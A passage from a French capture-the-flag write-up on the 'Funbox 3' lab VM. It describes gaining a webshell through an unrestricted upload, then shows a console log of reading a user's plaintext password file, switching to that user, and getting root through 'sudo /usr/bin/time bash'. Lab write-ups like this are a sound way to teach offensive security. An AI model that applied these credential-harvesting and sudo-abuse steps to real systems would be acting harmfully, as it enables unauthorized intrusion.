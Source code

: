 Puis à force de fouiller, la VM ne voulait plus rien savoir : temps de réponse anormalement long, connexion impossible des applis sur le serveur MySQL après reboot...

Bref, la VM était cassée, sans doute que les logs ont bouffé tout l'espace disque.

### Fastoche

Une fois la VM supprimée et réimportée, l'upload depuis la gestion des livres (`/store`) fonctionnait sans problème et sans aucune restriction.

Après le webshell, je suis passé à reverse-ssh et l'escalade de privilèges a été aisée :

```console
www-data@funbox3:~$ ls /home/
tony
www-data@funbox3:~$ find / -user tony -ls 2> /dev/null 
   268716      4 drwxr-xr-x   3 tony     tony         4096 Jul 31  2020 /home/tony
   268743      4 -rw-r--r--   1 tony     tony         3771 Feb 25  2020 /home/tony/.bashrc
   269494      4 -rw-------   1 tony     tony         1576 Jul 31  2020 /home/tony/.viminfo
   268744      4 -rw-r--r--   1 tony     tony          807 Feb 25  2020 /home/tony/.profile
   269493      4 -rw-rw-r--   1 tony     tony           70 Jul 31  2020 /home/tony/password.txt
   269495      4 -rw-------   1 tony     tony           30 Jul 31  2020 /home/tony/.bash_history
   268780      0 -rw-r--r--   1 tony     tony            0 Jul 30  2020 /home/tony/.sudo_as_admin_successful
   268778      4 drwx------   2 tony     tony         4096 Jul 30  2020 /home/tony/.cache
   268745      4 -rw-r--r--   1 tony     tony          220 Feb 25  2020 /home/tony/.bash_logout
www-data@funbox3:~$ cat /home/tony/password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
www-data@funbox3:~$ su tony
Password: 
tony@funbox3:/var/www/html$ id
uid=1000(tony) gid=1000(tony) groups=1000(tony),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
tony@funbox3:/var/www/html$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
tony@funbox3:/var/www/html$ sudo /usr/bin/time bash
root@funbox3:/var/www/html# cd
root@funbox3:~# ls
root.flag  snap
root@funbox3:~# cat root.flag 
 __________          ___.                      ___________                     
\_   _____/_ __  ____\_ |__   _______  ___ /\  \_   _____/____    _________.__.
 |    __)|  |  \/    \| __ \ /  _ \  \/  / \/   |    __)_\__  \  /  ___<   |  |
 |     \ |  |  /   |  \ \_\ (  <_> >    <  /\   |        \/ __ \_\___ \ \___  |
 \___  / |____/|___|  /___  /\____/__/\_ \ \/  /_______  (____  /____  >/ ____|
     \/             \/    \/            \/             \/     \/     \/ \/     
                                                                        
Made with ❤ from twitter@0815R2d2. Please, share this on twitter if you want.
```
